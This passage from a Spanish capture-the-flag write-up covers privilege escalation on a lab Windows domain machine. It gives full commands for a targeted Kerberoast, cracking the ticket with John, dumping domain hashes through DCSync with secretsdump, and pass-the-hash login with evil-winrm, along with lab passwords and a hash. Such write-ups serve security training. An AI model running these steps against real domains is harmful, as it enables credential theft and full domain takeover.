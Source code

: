 ## Escalada de Privilegios

En mi caso me copié cada usuario seguido de su contraseña y lo almacené en el archivo credentials.txt. La contraseña del usuario Emily nos permite conectarnos por winrm a la máquina, y tal como vimos al princio, BloodHound nos muestra en "Find Shortest Path to Domain Admins" que el usuario Emily tiene el privilegio "GenericWrite" sobre Ethan, lo que según BloodHound nos permite realizar un "Targeted Kerberoast".

![Pic]({{ '/assets/img/administrator/11pic.png' | relative_url }}){: .center-image }

Para acontecer este ataque usaré la herramienta [targetedKerberoast.py](https://github.com/ShutdownRepo/targetedKerberoast/blob/main/targetedKerberoast.py). Siguiendo su documentación basta con indicar el dominio, usuario y contraseña del usuario con este privilegio.

```sh
python3 targetedKerberoast.py -d administrator.htb -u emily -p UXLCI5iETUsIBoFVTj8yQFKoHjXmb
```

Pero este comando dará error ya que nuestro reloj no está sincronziado con el de la máquina víctima, para sincronizarlos haremos lo siguiente:

```sh
sudo su
timedatectl set-ntp off
rdate -n 10.10.11.42 (ip de la máquina)
```

Y si volvemos a ejecutar el comando nos devolverá un output como el siguiente:

![Pic]({{ '/assets/img/administrator/12pic.png' | relative_url }}){: .center-image }

Para crackear este TGS con John usaremos el siguiente formato:

```sh
john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt tgs.txt
```

Después de sacar su contraseña podemos ver en BloodHound que no es miembro de "Remote Management Users" por lo que no podemos conectarnos a la máquina con él. Sin embargo, tenemos privilegios suficientes para hacer un DCSync. Aunque no podamos conectarnos a la máquina, podemos usar la utilidad **secretsdump.py** de impacket para dumpear los hashes ntlm de los usuarios.

```sh
python3 secretsdump.py 'administrator/ethan:limpbizkit@10.10.11.42' -just-dc
```

![Pic]({{ '/assets/img/administrator/13pic.png' | relative_url }}){: .center-image }

Finalmente, podríamos tratar de crackear esos hashes pero la herramienta evil-winrm también nos permite hacer un "Pass The Hash" con el nt hash del usuario:

```sh
evil-winrm -i 10.10.11.42 -u administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e
```

![Pic]({{ '/assets/img/administrator/14pic.png' | relative_url }}){: .center-image }


